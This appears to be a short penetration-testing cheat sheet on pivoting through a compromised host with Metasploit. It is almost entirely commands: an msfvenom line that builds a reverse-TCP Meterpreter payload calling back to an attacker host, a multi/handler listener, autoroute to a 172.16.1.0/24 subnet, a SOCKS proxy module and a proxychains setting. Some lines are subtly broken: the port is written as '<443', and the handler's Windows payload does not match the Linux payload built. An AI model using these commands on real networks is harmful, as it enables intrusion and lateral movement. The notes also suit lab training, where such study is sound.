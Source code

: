 
PIVOT USING AUTOROUTE IN METERPRETER SESSION

```bash - kali
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$KALI LPORT=<443 -f elf > shell-x64.elf
```

```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

```meterpreter - kali
run autoroute -s 172.16.1.0/24
```

```meterpreter - kali
run autoroute -p
```

```meterpreter - kali
background
```

```meterpreter - kali
use auxiliary/server/socks_proxy

```

```meterpreter - kali
info
```

```meterpreter - kali
options
```

```meterpreter - kali
run
```

sudo mousepad /etc/proxychains4.conf

socks5 127.0.0.1 1080




